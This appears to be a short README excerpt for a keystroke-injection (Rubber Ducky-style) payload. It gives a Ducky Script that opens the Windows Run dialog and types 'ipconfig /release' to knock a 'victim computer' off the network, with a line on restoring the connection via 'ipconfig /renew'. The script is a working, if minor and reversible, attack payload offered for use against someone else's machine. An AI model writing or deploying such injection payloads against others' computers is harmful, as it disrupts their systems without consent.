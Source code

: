 Disconnect the victim computer from the Wi-Fi by using this script.
```
DEFAULT_DELAY 100
SLEEP 500
GUI r
STRING ipconfig /release
ENTER
```
To bring the connection back, type the command "ipconfig /renew" into the Run dialogue or Command Prompt.